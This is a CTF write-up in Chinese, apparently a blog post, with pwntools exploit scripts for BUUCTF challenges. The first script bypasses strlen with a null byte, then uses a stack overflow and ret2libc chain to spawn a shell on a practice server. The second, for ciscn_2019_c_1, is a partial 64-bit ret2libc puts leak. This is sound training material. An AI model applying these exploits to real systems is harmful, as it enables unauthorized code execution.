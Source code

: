 ```c
```
很长，fd打开随机数生成文件，将前四位赋值给buf，所以导致他为随机数，然后来到sub_804871F函数，buf变成了a1，，然后要考虑这个比较，比较bufhes的前v1个字符，所以要求v1=0，而strlen函数遇到0x00就会停止，是的v1=0，然后考虑的是返回的buf[7]，第三个函数当a1足够大时，就会造成栈溢出，所以要求直接修改buf[7]的值，所以构造
>payload1=b'\0x00'+b'a'*6+b'\0xff'*2

而用IDA查看了，没有后面函数，就要用ret2libc了
exp:
```python
from pwn import *
from LibcSearcher import *
r=remote('node5.buuoj.cn',25080)
context(os = 'linux', arch = 'amd64', log_level = 'debug')
elf=ELF('./1')
payload1=b'\x00'+b'a'*6+b'\xff'*2
r.sendline(payload1)
r.recvuntil('Correct\n')
write_got=elf.got['write']
write_plt=elf.plt['write']
main_addr=0x08048825
payload2=b'a'*(0xe7+4)+p32(write_plt)+p32(main_addr)+p32(1)+p32(write_got)+p32(4)
#write（1，write_got，4），write的返回地址为main
r.sendline(payload2)
write_addr=u32(r.recv(4))
#u32(io.recvuntil("\xf7")[-4:])
print(hex(write_addr))
libc=LibcSearcher('write',write_addr)#寻找libc版本
libc_base=write_addr-libc.dump('write')#寻找基址
system_addr=libc_base+libc.dump('system')
bin_sh_addr=libc_base+libc.dump('str_bin_sh')
r.sendline(payload1)
r.recvuntil('Correct\n')
payload3=b'a'*(0xe7+4)+p32(system_addr)+p32(0)+p32(bin_sh_addr)
r.sendline(payload3)
r.interactive()
```


## ciscn_2019_c_1

>知识点：ret2libc

```python
from pwn import*
from LibcSearcher import*
 
r=remote('node5.buuoj.cn',26681)
elf=ELF('./3')
 
main = 0x400B28
pop_rdi = 0x400c83
ret = 0x4006b9
 
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
 
r.sendlineafter('Input your choice!\n','1')
offset = 0x50+8
payload = b'\x00'+b'a'*(offset-1)
payload=payload+p64(pop_rdi)
payload=payload+p64(puts_got)
payload=payload+p64(puts_plt)
payload=payload+p64(main)
r.sendlineafter('Input your Plaintext to be encrypted\n',payload)
r.recvline()
r.recvline()
```